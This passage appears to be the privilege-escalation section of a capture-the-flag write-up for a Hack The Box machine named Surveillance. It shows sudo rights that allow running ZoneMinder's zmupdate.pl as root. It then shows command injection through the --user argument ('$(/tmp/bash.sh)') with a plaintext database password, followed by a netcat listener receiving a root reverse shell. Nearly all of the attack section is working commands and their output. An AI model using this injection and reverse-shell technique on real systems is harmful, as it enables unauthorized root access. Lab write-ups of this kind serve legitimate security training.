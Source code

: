 #### PRIVILEGE ESCALATION

```
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

We find Vulnerability in  /usr/bin/zmupdate.pl

Exploiting :- Run below command and corresponding netcat listener.

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/bash.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-1.dump. This may take several minutes.
```

```
┌──(Batman㉿GC)-[~/HackTheBox/Surveillance]
└─$ nc -lvnp 9005
listening on [any] 9005 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.245] 55656
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@surveillance:/usr/share/zoneminder/www# whoami
whoami
root
```

We are ROOT!!!!!!

